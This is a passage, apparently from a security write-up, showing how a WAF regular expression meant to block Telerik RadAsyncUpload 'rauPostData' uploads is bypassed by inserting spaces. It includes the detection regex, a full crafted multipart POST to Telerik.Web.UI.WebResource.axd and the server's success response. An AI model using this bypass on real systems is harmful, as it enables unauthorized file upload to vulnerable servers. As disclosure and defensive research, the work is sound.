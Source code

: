 In particular, the focus was placed on blocking all the requests with the "_rauPostData_" parameter, containing file upload encrypted metadata, within the URL query string or the request body.

The check within the body of the request was performed using the following regular expression, after normalizing and transforming to lower case its content:

```
.*name=.?.?raupostdata.*
```

This rule blocked a request if performed using the regular syntax to insert a "_multipart/form-data_" parameter.

The image below shows how a regular parameter matches the regular expression.

![](https://1.bp.blogspot.com/-gSJXB-0XvRs/X6fbDtA_XRI/AAAAAAAAAAg/KNihf91Jx6gJK0S0ABLFQZLfVmlm0doqgCLcBGAsYHQ/w577-h179/regexmatch.png)

  

However, the regular expression check can be bypassed. The weakness of this check relies on the central portion of the expression that checks for a maximum of two characters _(".?.?")_ between "_name="_ and "_raupostdata_". If three spaces are added between the strings and the quotes are removed the expression will no longer match as shown below.

![](https://1.bp.blogspot.com/-vb5LVz2YYwQ/X6fbN02N_AI/AAAAAAAAAAk/VyQsmqa-l_0arf4ohI5LQviVraQ4Z1lowCLcBGAsYHQ/w573-h161/regexfail.png)

  

With this modification the parameter was still considered valid by the web server allowing once again the file upload.

Request:

```
POST /Weblink/Telerik.Web.UI.WebResource.axd HTTP/1.1Host: victim.comUser-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_st64; rv:75.0) Gecko/20100101 Firefox/75.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeContent-Type: multipart/form-data; boundary=---------------------------62616f37756f2fConnection: closeContent-Length: 2473​-----------------------------62616f37756f2fContent-Disposition: form-data; name=   rauPostData​ATTu5i4R+ViNFYO[Encrypted rauPostData Payload in base64]9TB0pfAmUFAlzLUg==-----------------------------62616f37756f2fContent-Disposition: form-data; name="file"; filename="blob"Content-Type: application/octet-stream​Test_Test-----------------------------62616f37756f2fContent-Disposition: form-data; name="fileName"​RAU_crypto.bypass-----------------------------62616f37756f2fContent-Disposition: form-data; name="type"​rau-----------------------------62616f37756f2fContent-Disposition: form-data; name="contentType"​text/html-----------------------------62616f37756f2fContent-Disposition: form-data; name="lastModifiedDate"​2019-01-02T03:04:05.067Z-----------------------------62616f37756f2fContent-Disposition: form-data; name="metadata"​{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":1,"UploadID":"test_12421498329494.txt"}-----------------------------62616f37756f2f--​​
```

Response:

```
HTTP/1.1 200 OKCache-Control: privateContent-Type: text/html; charset=utf-8Date: Tue, 19 May 2020 14:26:16 GMTContent-Length: 666Connection: close​{"fileInfo":{"FileName":"RAU_crypto.bypass","ContentType":"text/html","ContentLength":18,"DateJson":"2019-01-02T03:04:05.067Z","Index":0},"metaData":"[Base64 Metadata]" }
```
